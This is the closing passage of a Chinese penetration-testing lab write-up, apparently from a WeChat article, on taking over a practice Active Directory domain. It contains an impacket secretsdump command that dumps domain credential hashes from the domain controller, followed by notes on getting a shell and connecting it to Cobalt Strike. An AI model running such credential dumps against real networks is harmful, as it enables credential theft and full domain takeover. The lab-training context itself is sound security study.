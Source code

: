 （在impacket里面）  
  
python secretsdump.py "xiaodi.org/dc$@192.168.10.10" -no-pass  
  
![1747054497_6821efa176812cfb0796b.png!small?1747054497635](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOX0lxQaJMrhUANER7kM5xCb8k2U9B7r5GCv2kSDXaJK8u9JIvLBg28lg/640?wx_fmt=jpeg&from=appmsg "")  
  
一般都是第一个administrator的第一个或者第二个![1747054512_6821efb0a161527e060e8.png!small?1747054512627](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXNBoumHCzaM0emOfEolxfjOmZx7SRB8jibeCjBOFiaTqcCia5z8Oc7Oxgg/640?wx_fmt=jpeg&from=appmsg "")  
  
  
（域控是dc.xiaodi.org ,)  
  
成功得到shell,然后将其上线cs![1747054524_6821efbc067d5bf4a25a5.png!small?1747054523784](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXNB40Na97pkVAaxdYJTNTNibqs2ucNpRpcV1NPw09ibgDjst5HETzD9ZA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
成功上线![1747054532_6821efc4c687158b44847.png!small?1747054532602](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrDRttibW9XfWUd7Nia3q8oOXGfCict5QCCNoyeYw5icOuo9fqdpAEQ1MVoiaTWo72IU4tGiccwfhhToyXA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
至此完成所有的机子的上线  
## 总结  
  
本次小迪老师靶场实战演练，从环境搭建到对域控制器的完全控制，覆盖了Web渗透、内网横向移动、权限提升等多个核心环节。在实践过程中，不仅巩固了PHP-CGI、永恒之蓝、WebLogic等常见漏洞的利用方法，也深入理解了内网渗透中路由建立、代理配置、文件传输及正向上线等关键技巧。同时，对在实战中遇到的问题（如永恒之蓝利用失败、正向上线受阻）进行了分析，并尝试了不同的解决思路。  
  
通过此次靶场实战，进一步提升了个人在网络安全领域的综合实战能力和问题解决能力。  
  
  
**关 注 有 礼**  
  
  
  
欢迎关注公众号：网络安全者  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/0JJXjA8siccxdOvXt6Ez07aIM7LibibYn72xDdQRRmiaHEcwp9ITScZkVHpjKib6iasJ79bHLHFUDJuPrDjiasCrWcORQ/640?wx_fmt=jpeg&from=appmsg "")  
  
  
  
本文内容来自网络，如有侵权请联系删除  
  

